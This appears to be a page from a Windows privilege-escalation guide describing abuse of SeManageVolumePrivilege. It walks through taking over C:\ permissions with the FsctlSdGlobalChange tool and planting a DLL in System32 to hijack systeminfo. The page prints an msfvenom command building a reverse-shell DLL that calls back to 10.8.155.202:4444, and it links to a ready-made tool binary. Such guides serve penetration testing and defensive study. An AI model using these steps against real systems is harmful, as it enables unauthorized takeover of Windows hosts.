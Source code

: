 # Manage Volume Privilege

This policy defines which users are authorized to perform disk volume management tasks such as defragmenting, creating, or removing volumes, and running disk cleanup tools. This permission should be handled with caution, as it allows users to explore disks and expand files in memory. For further details, refer to [Microsoft documentation](https://learn.microsoft.com/es-es/windows/security/threat-protection/security-policy-settings/perform-volume-maintenance-tasks).

### Attack

Several methods can be employed to escalate privileges through this policy. One example involves taking control of the root directory `C:\` and creating a malicious library in the System32 folder, thereby performing a simple DLL Hijacking attack on a service running with high integrity levels. The permission change can be executed using the tool `FsctlSdGlobalChange.c`, which is available [here](https://github.com/gtworek/PSBits/blob/master/Misc/FSCTL_SD_GLOBAL_CHANGE.c).

### Tools

[FsctlSdGlobalChange.exe](https://daniel10barredo.github.io/PrivEscAssist_Windows/tools/FsctlSdGlobalChange.exe)

## Example

We first verify that we have the **seManageVolumePrivilege** permission.

![Permission Check](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/users/manageVol_1.png)

Next, we execute the `FsctlSdGlobalChange.exe` binary, which overwrites the Administrators SID with the common user SID.

![SID Change](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/users/manageVol_2.png)

We now verify that we have full permissions on directories like System32 using **icacls**.

![ICACLS Permission Check](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/users/manageVol_3.png)

Next, we create a reverse shell DLL using `msfvenom` for a **DLL Hijacking** attack with the following code:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.155.202 LPORT=4444 -f dll -o rev.dll
```

We place the DLL at _`C:\Windows\System32\wbem\tzres.dll`_ to hijack the `Systeminfo` command.

![DLL Placement](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/users/manageVol_4.png)

Upon executing `Systeminfo`, we immediately receive a reverse shell connection with the `NT AUTHORITY\NETWORK SERVICE` user.

![Reverse Shell](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/users/manageVol_5.png)
